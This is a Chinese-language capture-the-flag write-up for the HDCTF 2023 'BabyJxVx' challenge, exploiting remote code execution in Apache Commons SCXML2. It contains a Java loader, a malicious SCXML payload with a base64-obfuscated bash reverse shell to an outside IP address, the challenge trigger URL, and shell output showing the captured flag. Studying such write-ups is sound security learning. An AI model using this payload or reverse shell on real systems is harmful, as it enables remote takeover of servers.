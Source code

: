 # [HDCTF 2023]BabyJxVx 复现

## 知识点

>   Apache SCXML2 RCE	可以通过加载恶意xml文件实现RCE

>   主要加载恶意xml方式：`SCXMLReader.read()`方法

```java

import org.apache.commons.scxml2.SCXMLExecutor;
import org.apache.commons.scxml2.io.SCXMLReader;
import org.apache.commons.scxml2.model.ModelException;
import org.apache.commons.scxml2.model.SCXML;

import javax.xml.stream.XMLStreamException;
import java.io.IOException;

public class POC {
    public static void main(String[] args) throws ModelException, XMLStreamException, IOException {

        // 创建 scxml 实例
        SCXMLExecutor executor = new SCXMLExecutor();
        // 将 SCXML URL 解析为 SCXML 模型
        SCXML scxml = SCXMLReader.read("http://127.0.0.1:8000/1.xml");

        // 设置状态机（scxml实例）执行
        executor.setStateMachine(scxml);
        executor.go();

    }
}
```

参考文章：https://www.yuque.com/boogipop/okvgcs/zzx3n35xsg26ss0e?view=doc_embed

**playload：**

```xml
<?xml version="1.0"?>
<scxml xmlns="http://www.w3.org/2005/07/scxml" version="1.0" initial="run">
    <final id="run">
        <onexit>
            <assign location="flag" expr="''.getClass().forName('java.lang.Runtime').getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTIuMTI0LjUyLjIwMC8yMDAwMCAwPiYx}|{base64,-d}|{bash,-i}')"/>
        </onexit>
    </final>
</scxml>
```

>   将上面的文件放在服务器上，并设置对外可访问

>   原题访问：`http://node4.anna.nssctf.cn:28045/Flag?filename=http://服务器地址:7777/poc.xml`
>
>   触发shell，然后获取flag

```nginx
root@4d0d39411c944bf6:/# cat /flag_*
cat /flag_*
NSSCTF{51e9c540-eb7d-4349-8ee0-c83c995cba99}
```

